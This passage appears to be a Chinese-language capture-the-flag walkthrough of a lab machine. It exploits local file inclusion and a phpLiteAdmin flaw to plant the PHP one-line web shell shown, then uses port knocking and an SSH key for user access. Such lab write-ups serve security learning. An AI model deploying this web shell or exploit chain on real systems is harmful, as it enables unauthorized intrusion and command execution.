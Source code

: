 登录 department 页面，在 notes 处发现了很多有价值的信息...

URL 处存在 LFI 攻击，以及提示了 ninevehNotes.txt 文件名称信息...

内容信息提示此页面连接着数据库... 以及~ amrois 不知道做什么用的信息....

这里存在 LFI 攻击的话，又连接着数据库... 思路应该是在数据库上传 shell，在这里执行即可... 试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjXnZJohNlaxxibViaOQR5Py4eByKUL0UjmGdLoTcdVjYgib3icvoU1poBmg/640?wx_fmt=png)

登录 db 页面后，根据前面收集信息查看到可利用的 phpLite... 的漏洞提示... 开始创建 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjBZKNCkQWjXTf4ng3tibodsvgn6oE2OkAN7IRs6JZ9FBxzU3Nzbm5ulw/640?wx_fmt=png)

```
<?php echo system($_REQUEST["dayu"]);?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjEpp9hgmXJb56ZCricTfZqibzlv5vrfCuCU4tJibicAFtQM31CDGyYh3zow/640?wx_fmt=png)

```
/var/tmp/ninevehNotes.php
```

根据漏洞利用提示，首先创建一个扩展名为的数据库，继续创建了 ninevehNotes.php....（这里是因为前面获取的 ninevehNotes.txt 信息提示修改的... 还因为测试了几遍就是无法获得 shell... 改了 ninevehNotes 名称后就可以了）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjOcooy4GqWErE4Fjbv3SnCxCAzBOQlicOicsEECGj1E9WSoLVv1oiag3dQ/640?wx_fmt=png)

```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&dayu=dir
```

通过简单的测试... 成功利用 shell 注入查询信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjWic8nuHfd5kIUW3bbViaAl8Xru5q2M6CnmOr6nKY8CaAvZUO6S90H26Q/640?wx_fmt=png)

直接利用一句话 shell 成功提 www 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjFXq5P0swtqWOibYXmO9BZMmnXlzDbUKvXEX6ibxSAfjKsYJLEFUkh8vw/640?wx_fmt=png)

进来后直接印证本地开放了 ssh 服务...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjjv3gZF21Viaia8ibMdLIhgfO2iaUynPdXzqOW5uZsxt8ibZHZItXx0YRObQ/640?wx_fmt=png)

通过反复思考前面获得的信息，LinEnum 枚举，以及 Find 查看了 amrois，发现存在 amrois 文件...

通过查看 amrois 文件信息... 最后提示了要获得 Amrois 用户权限，需要敲震（knock）571 290 911 端口...

继续 find 查看到了 knock 下存在的 knock.conf... 查看了配置，那就是在本地敲震端口后直接 ssh 利用 RSA 登陆即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMraMhvhdC4FOWYksdQ5MSjUk6otKaKc3ia2ud67KrzoicKTf8Kia5yJgM338QOUF5pdG3kcdmibzwQqg/640?wx_fmt=png)

```
sudo apt-get install knockd
knock 10.10.10.43 571 290 911
ssh -i id_ssh amrois@10.10.10.43
```
